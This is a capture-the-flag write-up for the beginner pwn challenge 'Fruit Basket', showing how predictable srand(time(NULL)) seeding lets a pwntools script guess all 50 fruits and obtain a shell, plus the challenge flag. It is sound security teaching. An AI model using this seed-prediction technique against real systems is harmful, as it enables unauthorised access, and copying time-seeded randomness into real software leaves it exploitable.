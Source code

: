 ```yaml
---
linkTitle: Fruit Basket
title: Beginner - Fruit Basket
type: docs
---
```


* Author: P3g4su5   
* Difficulty: Easy
* Description : 🍎🍌🍇🍓🍊🥭🍍🍑🍈🍉
* Attachments : [fruit_basket.zip](https://github.com/Parth-Badgujar/BackdoorCTF-23-Pwn/raw/main/FruitBasket/public/fruit_basket.zip)

## Writeup  

* In this challenge you had to exploit the fact that the program uses `srand(time(NULL))` to set the `RNG seed`, and since the `UNIX time` will be constant for everyone irrespective of local time, you can predict the `seed` and predict all the fruits asked by the program 
*  After sending `50` correct inputs the program will give the shell 
* Here is the decokmpiled program by IDA

* The array of fruits can be recoved by using any debugger 
```C   
fruits = [
    "Apple", 
    "Orange", 
    "Mango", 
    "Banana", 
    "Pineapple", 
    "Watermelon", 
    "Guava", 
    "Kiwi", 
    "Strawberry", 
    "Peach"
]
``` 

* The program is randomly selecting the fruits from the array with `fruits[rand() % 10]`  

* Here is the complete exploit : 

```python
from pwn import * 
import time
import ctypes 

context.log_level = 'debug'
fruits = [
    "Apple", 
    "Orange", 
    "Mango", 
    "Banana", 
    "Pineapple", 
    "Watermelon", 
    "Guava", 
    "Kiwi", 
    "Strawberry", 
    "Peach"
]

libc = ctypes.CDLL("/lib/x86_64-linux-gnu/libc.so.6")
p = process('./chal')
libc.srand(int(time.time())) 

for i in range(50):
    p.sendlineafter("guess : ", (fruits[libc.rand() % 10]).encode()) 

p.interactive() 
```

* Remember we might have to add `+5` or `+6` time delay, due to some error in `time.time()`  
<br>  
---

#### Flag : `flag{fru17s_w3r3nt_r4nd0m_4t_a11}` 
